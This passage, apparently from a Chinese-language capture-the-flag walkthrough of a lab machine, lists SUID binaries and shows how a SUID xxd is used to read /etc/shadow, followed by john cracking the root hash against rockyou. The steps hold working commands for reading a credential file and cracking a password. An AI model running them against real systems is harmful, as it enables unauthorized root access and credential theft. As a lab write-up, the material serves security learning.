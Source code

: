 ```text
-rwsr-xr-x 1 root root 43088 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 22520 Mar 27  2018 /usr/bin/pkexec
-rwsr-xr-x 1 root root 18640 Oct 27  2016 /usr/bin/netkit-rlogin
-rwsr-x--- 1 root itservices 18552 Apr 10  2018 /usr/bin/xxd      -->xxd 命令用于使用二进制或十六进制格式显示文件内容
-rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 40344 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 149080 Jan 18  2018 /usr/bin/sudo
-rwsr-xr-x 1 root root 22728 Oct 27  2016 /usr/bin/netkit-rcp
-rwsr-xr-x 1 root root 76496 Jan 25  2018 /usr/bin/chfn
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 75824 Jan 25  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Jan 25  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 18448 Mar  9  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Jan 25  2018 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 14504 Oct 27  2016 /usr/bin/netkit-rsh
-rwsr-sr-x 1 root root 30800 May 16  2018 /usr/bin/taskset
-rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Nov 15  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 80056 Jun  5  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 436552 Feb 10  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2018 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-sr-x 1 root root 101208 May 16  2018 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 113336 Jan 16  2018 /sbin/mount.nfs
```

使用`xxd`命令读取`shadow`：

```bash
xxd /etc/shadow | xxd -r
```

尝试破译`root`的密码：

```bash
# kali
echo 'root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXDu5Yj1:17721:0:99999:7:::' > flag.txt   
# 只能是单引号，双引号不行！！！！
john flag.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151441.png" alt="image-20240225014300677" style="zoom:50%;" />

尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151442.png" alt="image-20240225014448067" style="zoom:50%;" />

成功！！！！

### SUID提权(bob and peter)

先查找一下SUID文件有哪些：
